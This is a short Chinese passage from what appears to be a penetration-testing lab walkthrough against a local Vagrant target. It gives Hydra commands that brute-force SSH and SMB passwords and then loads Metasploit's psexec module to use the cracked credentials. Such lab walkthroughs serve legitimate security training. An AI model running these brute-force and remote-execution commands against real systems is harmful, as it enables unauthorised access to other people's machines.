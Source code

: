 输入 `hydra -l vagrant -P /root/dictionary.txt -e ns -vV -t 1 -f 192.168.220.136 ssh`命令，对目标 ssh 服务进行穷举。

![image-20230503193347801](assets/image-20230503193347801.png)

可以看到账号密码都为 vagrant。

输入 `hydra -l vagrant -P /root/dictionary.txt 192.168.220.136 smb` 命令，对目标 445 端口进行穷举，可看到目标账号密码均为 vagrant。

![image-20230503193436431](assets/image-20230503193436431.png)

打开新的终端，输入 msfconsole，打开 msf 终端。我们对穷举出来的 smb 账号密码进行利用。利用 msf 的 psexec 模块。

输入 `use exploit/windows/smb/psexec` 命令，使用该模块。

![image-20230503194034834](assets/image-20230503194034834.png)
